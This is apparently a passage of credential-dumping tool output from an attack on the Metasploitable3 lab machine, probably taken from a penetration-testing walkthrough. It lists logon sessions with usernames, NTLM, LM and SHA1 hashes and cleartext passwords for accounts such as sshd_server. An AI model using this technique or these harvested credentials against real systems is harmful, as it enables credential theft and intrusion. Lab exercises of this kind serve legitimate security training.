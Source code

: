 ```none
         * Domain   : METASPLOITABLE3
         * Password : mandalorian1
        kerberos :
         * Username : boba_fett
         * Domain   : METASPLOITABLE3
         * Password : mandalorian1
        ssp :
        credman :

Authentication Id : 0 ; 105010 (00000000:00019a32)
Session           : Service from 0
User Name         : sshd_server
Domain            : METASPLOITABLE3
Logon Server      : METASPLOITABLE3
Logon Time        : 9/1/2020 12:33:28 PM
SID               : S-1-5-21-13609554-1851907898-2084865544-1002
        msv :
         [00000003] Primary
         * Username : sshd_server
         * Domain   : METASPLOITABLE3
         * LM       : e501ddc244ad2c14829b15382fe04c64
         * NTLM     : 8d0a16cfc061c3359db455d00ec27035
         * SHA1     : 94bd2df8ae5cadbbb5757c3be01dd40c27f9362f
        tspkg :
         * Username : sshd_server
         * Domain   : METASPLOITABLE3
         * Password : D@rj33l1ng
        wdigest :
         * Username : sshd_server
         * Domain   : METASPLOITABLE3
         * Password : D@rj33l1ng
        kerberos :
         * Username : sshd_server
         * Domain   : METASPLOITABLE3
         * Password : D@rj33l1ng
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : METASPLOITABLE3$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 9/1/2020 12:33:19 PM
SID               : S-1-5-20
        msv :
        tspkg :
        wdigest :
         * Username : METASPLOITABLE3$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : metasploitable3$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 620313 (00000000:00097719)
Session           : Interactive from 0
User Name         : jarjar_binks
Domain            : METASPLOITABLE3
Logon Server      : METASPLOITABLE3
```